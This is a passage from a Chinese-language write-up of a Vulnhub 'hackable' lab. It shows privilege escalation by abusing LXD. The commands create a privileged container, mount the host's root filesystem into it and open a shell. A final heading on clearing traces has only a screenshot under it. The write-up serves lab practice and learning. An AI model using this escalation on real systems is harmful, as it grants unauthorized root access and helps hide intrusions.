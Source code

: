 然后使用`lxc image list`列出镜像

![](D:\stu\vulnhub\hackable靶场\pic-2\18.jpg)



进行`lxd`初始化，一直回车即可

![](D:\stu\vulnhub\hackable靶场\pic-2\19.jpg)



#### 提权使用

生成一个初始化容器

```shell
lxc init test dijia -c security.privileged=true
//这里的test就是前面初始化的镜像别名
```

![](D:\stu\vulnhub\hackable靶场\pic-2\20-1.jpg)

![](D:\stu\vulnhub\hackable靶场\pic-2\20.jpg)



把磁盘挂载

```shell
lxc config device add dijia mydevice disk source=/ path=/mnt/root recursive=true
```

启动创建的dijia容器

```shell
lxc start dijia
```

![](D:\stu\vulnhub\hackable靶场\pic-2\21.jpg)





容器执行`/bin/sh`

```shell
lxc exec dijia /bin/sh
```

![](D:\stu\vulnhub\hackable靶场\pic-2\22.jpg)

![23](D:\stu\vulnhub\hackable靶场\pic-2\23.jpg)



## 清除痕迹

![](D:\stu\vulnhub\hackable靶场\pic-2\24.jpg)
